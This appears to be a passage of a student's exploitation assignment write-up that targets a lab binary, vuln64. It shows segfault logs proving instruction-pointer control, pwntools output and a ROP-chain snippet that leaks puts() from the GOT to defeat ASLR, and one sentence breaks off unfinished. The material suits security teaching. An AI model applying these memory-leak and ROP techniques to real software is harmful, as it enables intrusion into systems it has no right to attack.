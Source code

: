Confirming that our exploit is working as intended.

```sh
┌──(student㉿kali)-[~/Desktop/assign2/exploit]
└─$ sudo dmesg | grep -i segfault
[  297.389068] vuln64[1306]: segfault at 42424242 ip 0000000042424242 sp 00007ffc3f30c280 error 14 in libc-2.31.so[7f638cded000+25000]
[  543.306608] vuln64[1341]: segfault at 42424242 ip 0000000042424242 sp 00007ffffdc7c370 error 14 in libc-2.31.so[7fcd805fb000+25000]

```

Here we progress by testing the memory leak vulnerability within the puts() call. This is performed using a ROP chain and returning back to the helpCommand() function. As you can see, we successfully leaked 


```sh
┌──(student㉿kali)-[~/Desktop/assign2/exploit]
└─$ python3 exploit64.py
[*] '/home/student/Desktop/assign2/app/vuln64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/student/Desktop/assign2/app/vuln64': pid 1423
[*] Loaded 14 cached gadgets for '../app/vuln64'
[*] Switching to interactive mode
\xf0\xa5Y\x98\x80\x7f
This is an admin tools to run programs with elevated privileges
Press Enter to return...
$  
```

The below code achieves memory leak by using pwntool's ROP inbuilt functions to automatically grab the PLT and GOT address of the puts() function, whereby it is printed to the terminal \x00\x00\x00\x00\x00 etc... 

Pwntools is able to achieve this on execution by loading the gadgets of the program and creating a ROP object which can be called by using the below:

elf = ELF(./vuln64)

rop = ROP(elf)

rop.call()

This says “call PLT’s puts() function and print the leaked memory address of the GOT’s puts() function”. Remembering that these are dynamically linked between the program and libc.

```sh
rop.call(elf.plt['puts'], [elf.got['puts']]) 
```

Creating a ROP chain by calling the PLT and GOT gadgets of the puts() function and then returning to the beginning of the helpComand() function.
